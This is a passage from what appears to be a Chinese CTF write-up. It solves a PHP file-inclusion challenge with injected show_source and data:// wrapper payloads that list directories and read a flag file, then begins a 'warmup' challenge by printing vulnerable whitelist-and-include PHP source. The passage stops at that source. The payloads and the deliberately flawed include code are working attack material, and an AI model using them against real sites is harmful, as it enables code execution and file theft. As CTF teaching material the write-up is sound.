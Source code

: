 ![](https://img-blog.csdnimg.cn/2020032220574682.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`?page=http://127.0.0.1/index.php/?hello=<?show_source("fl4gisisish3r3.php");?>`
![](https://img-blog.csdnimg.cn/20200322210200460.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
### 方法3：伪协议
使用其他的伪协议data://text/plain
首先获取路径`?page=data://text/plain,<?php echo $_SERVER['DOCUMENT_ROOT'];?>`
![](https://img-blog.csdnimg.cn/20200322210635603.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
读取当前目录的文件`?page=data://text/plain,<?php print_r(scandir('/var/www'));?>`
![](https://img-blog.csdnimg.cn/20200322210947200.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后读取文件即可`?page=data://text/plain,<?php $a=file_get_contents('fl4gisisish3r3.php'); echo htmlspecialchars($a);?>`
![](https://img-blog.csdnimg.cn/20200322212008950.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## warmup
打开是一个滑稽，查看源码得到source.php查看得到源代码
```php
 <?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
```